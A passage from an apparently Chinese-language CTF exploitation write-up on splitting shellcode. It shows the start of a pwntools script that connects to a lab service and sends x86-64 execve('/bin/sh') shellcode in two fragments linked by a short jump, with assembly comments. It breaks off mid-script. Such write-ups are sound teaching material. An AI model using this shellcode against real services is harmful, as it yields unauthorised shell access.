 ![Alt](img/shellcode拼接10.png)

所以正确的脚本如下:

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *

  context.update(arch = 'amd64', os = 'linux', timeout = 1)

  io = remote('172.17.0.3', 10001)
  #原始shellcode
  #shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

  #xor rdx, rdx
  #mov rbx, 0x68732f6e69622f2f
  #shr rbx, 0x8
  #push rbx
  #mov rdi, rsp
  #push rax
  #push rdi
  #mov rsi, rsp
  #mov al, 0x3b
  #syscall

  shellcode1 = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50"
  #第一部分shellcode
  #xor rdx, rdx
  #mov rbx, 0x68732f6e69622f2f
  #shr rbx, 0x8
  #push rbx
  #mov rdi, rsp
  #push rax

  shellcode1 += "\xeb\x18"
  #jmp short $+18h
```